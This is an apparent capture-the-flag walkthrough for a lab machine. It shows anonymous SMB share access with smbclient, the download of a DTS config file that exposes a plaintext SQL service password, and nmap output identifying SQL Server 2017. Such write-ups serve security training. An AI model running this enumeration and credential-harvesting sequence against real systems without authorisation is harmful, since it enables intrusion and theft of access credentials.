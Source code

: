 
	$ smbclient -N \\\\10.10.10.27\\backups
-----

	Try "help" to get a list of possible commands.
	smb: \> dir
	  .                                   D        0  Mon Jan 20 12:20:57 2020
	  ..                                  D        0  Mon Jan 20 12:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020

			10328063 blocks of size 4096. 8254480 blocks available
	smb: \> get prod.dtsConfig
	getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)


// lets grab him


	smb: \> get prod.dtsConfig
	getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)


// and see the content


	$ cat prod.dtsConfig 
-----

	<DTSConfiguration>
	    <DTSConfigurationHeading>
		<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	    </DTSConfigurationHeading>
	    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
		<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	    </Configuration>
	</DTSConfiguration>


// Its seems we have some credentials


	Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1


// Since we know from nmap there is ms-sql service running


	| ms-sql-info: 
	|   10.10.10.27:1433: 
	|     Version: 
	|       name: Microsoft SQL Server 2017 RTM
	|       number: 14.00.1000.00
	|       Product: Microsoft SQL Server 2017
	|       Service pack level: RTM
	|       Post-SP patches applied: false
	|_    TCP port: 1433
